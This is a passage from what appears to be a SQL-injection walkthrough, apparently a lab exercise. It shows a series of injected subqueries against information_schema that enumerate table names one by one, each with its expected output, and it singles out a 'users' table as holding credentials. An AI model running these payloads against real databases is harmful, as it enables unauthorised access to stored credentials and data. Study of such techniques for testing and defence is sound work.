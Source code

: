 **Expected Output:**

```
products
```


***

**Table 2 (OFFSET 1):**

```bash
--query "(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)"
```

**Expected Output:**

```
users
```

✅ **Found it!** This is where credentials are stored.

***

**Table 3 (OFFSET 2):**

```bash
--query "(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 2)"
```

**Expected Output:**

```
orders
```


***

**Table 4 (OFFSET 3):**

```bash
--query "(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 3)"
```

**Expected Output:**

```
sessions
```


***

**Table 5 (OFFSET 4):**

```bash
--query "(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 4)"
```

